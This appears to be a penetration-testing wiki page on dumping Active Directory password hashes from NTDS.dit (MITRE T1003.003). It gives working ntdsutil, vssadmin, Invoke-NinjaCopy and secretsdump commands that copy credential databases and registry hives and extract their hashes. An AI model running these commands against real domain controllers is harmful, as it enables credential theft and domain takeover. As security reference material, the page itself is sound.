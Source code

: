 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.003
---
```


# NTDS.dit secrets

NTDS \(Windows NT Directory Services\) is the directory services used by Microsoft Windows NT to locate, manage, and organize network resources. The NTDS.dit file is a database that stores the Active Directory data \(including users, groups, security descriptors and password hashes\). This file is stored on the domain controllers.

Once the secrets are extracted, they can be used for various attacks: [credential spraying](../bruteforcing/password-spraying.md), [stuffing](../bruteforcing/stuffing.md), [shuffling](../credential-shuffling.md), [cracking](../cracking.md), [pass-the-hash](../../ntlm/pass-the-hash.md), [overpass-the-hash](../../kerberos/pass-the-key.md) or [silver or golden tickets](../../kerberos/forged-tickets.md).

## Exfiltration

Since the NTDS.dit is constantly used by AD processes such as the Kerberos KDC, it can't be copied like any other file. In order to exfiltrate it from a live domain controller and extract password hashes from it, many techniques can be used.

Just like with [SAM & LSA secrets](sam-and-lsa-secrets.md), the SYSTEM registry hive contains enough info to decrypt the NTDS.dit data. The hive file \(`\system32\config\system`\) can either be exfiltrated the same way the NTDS.dit file is, or it can be exported with `reg save HKLM\SYSTEM 'C:\Windows\Temp\system.save'`.

### AD maintenance \(NTDSUtil\)

NTDSUtil.exe is a diagnostic tool available as part of Active Directory. It has the ability to save a snapshot of the Active Directory data. Running the following command will copy the NTDS.dit database and the SYSTEM and SECURITY hives to `C:\Windows\Temp`.

```bash
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\Temp\NTDS" quit quit
```

The following files can then be exported

* `C:\Windows\Temp\NTDS\Active Directory\ntds.dit`
* `C:\Windows\Temp\NTDS\registry\SYSTEM`

### Volume Shadow Copy \(VSSAdmin\)

VSS \(Volume Shadow Copy\) is a Microsoft Windows technology, implemented as a service, that allows the creation of backup copies of files or volumes, even when they are in use. The following command will create the shadow copy and will print two values that will be used later: the ID and the Name of the shadow copy.

```bash
vssadmin create shadow /for=C:
```

Once the VSS is created for the target drive, it is then possible to copy the target files from it.

```bash
copy $ShadowCopyName\Windows\NTDS\NTDS.dit C:\Windows\Temp\ntds.dit.save
```

Once the required files are exfiltrated, the shadow copy can be removed

```bash
vssadmin delete shadows /shadow=$ShadowCopyId
```

{% hint style="info" %}
This attack can be carried out with [Impacket](https://github.com/SecureAuthCorp/impacket/)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) with the `-use-vss` option. Additionaly, the `-exec-method` option can be set to `smbexec`, `wmiexec` or `mmcexec` to specify on which remote command execution method to rely on for the process.
{% endhint %}

### NTFS structure parsing

[Invoke-NinjaCopy](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1) is a PowerShell script part of the PowerSploit suite able to "copy files off an NTFS volume by opening a read handle to the entire volume \(such as c:\) and parsing the NTFS structures. **This technique is stealthier than the others**.

```bash
Invoke-NinjaCopy.ps1 -Path "C:\Windows\NTDS\NTDS.dit" -LocalDestination "C:\Windows\Temp\ntds.dit.save"
```

## Secrets dump

Once the required files are exfiltrated, they can be parsed by tools like [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) \(Python, part of [Impacket](https://github.com/SecureAuthCorp/impacket/)\) or [gosecretsdump](https://github.com/c-sto/gosecretsdump) \(Go, faster for big files\).

```text
secretsdump -ntds ntds.dit.save -system system.save LOCAL
gosecretsdump -ntds ntds.dit.save -system system.save
```

